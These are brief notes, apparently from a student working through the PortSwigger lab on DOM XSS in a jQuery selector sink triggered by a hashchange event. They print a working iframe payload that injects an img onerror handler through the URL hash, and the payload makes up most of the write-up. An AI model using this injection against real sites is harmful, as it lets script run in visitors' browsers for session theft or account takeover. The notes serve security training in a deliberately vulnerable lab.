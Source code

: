 **DOM XSS in jQuery selector sink using a hashchange event**

Notice jquery from prefix $
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/78080d96-5c70-4184-9b4e-407e3de51ab1)





Hashchange spotted which uses # to bookmark
 
`https://exploit-0a81005a04487a538017161c010b00ad.exploit-server.net/exploit`


```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

From <https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event> 


Will pop up a print 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/2349ae3e-8e6b-4471-ac1e-e7e045c44bb6)


